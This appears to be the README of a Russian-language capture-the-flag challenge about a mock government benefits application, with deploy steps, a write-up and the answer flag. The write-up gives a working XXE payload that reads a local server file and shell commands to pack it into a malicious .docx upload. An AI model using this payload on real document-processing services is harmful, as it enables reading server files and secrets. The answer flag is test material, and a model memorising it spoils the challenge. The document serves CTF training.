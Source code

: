 # МФЦ

## Опсиание
Автор @geen_stack

Теперь государство гарантирует отдельные льготы для ЦТФеров!
Скорее же подавайте заявку

## Deploy

Экспозит порт 6082
```
docker-compose up
```

## WriteUp

В приложении есть фейковая TimeBased SQLi в POST-праметре type, но она ничего хакеру не даст.
Чтобы залутать флаг нужно использовать XXE в функционале обработки docx:

Создаем нагрузку
Делаем файл document.xml
```
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/flag.txt">
]>
<root>&xxe;</root>
```

Собираем документ:
```
mkdir -p word
cp document.xml word/
zip -r malicious.docx word/
```

## Flag
```
flag{w0w_y0u_spl01t_xx3_1n_d0cx}
```
